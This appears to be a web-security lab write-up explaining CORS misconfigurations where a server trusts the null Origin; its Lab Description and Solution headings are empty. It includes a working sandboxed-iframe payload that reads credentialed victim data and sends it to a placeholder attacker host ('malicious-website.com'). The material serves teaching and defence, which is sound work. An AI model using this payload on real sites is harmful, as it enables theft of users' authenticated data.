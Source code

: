 ## Lab Description :



## Overview :

## Whitelisted null origin value

The specification for the Origin header supports the value `null`. Browsers might send the value null in the `Origin` header in various unusual situations:


Some applications might **whitelist the null origin to support local development of the application**. For example, suppose an application receives the following cross-origin request:

```http
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

And the server responds with:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```  

## Solution :

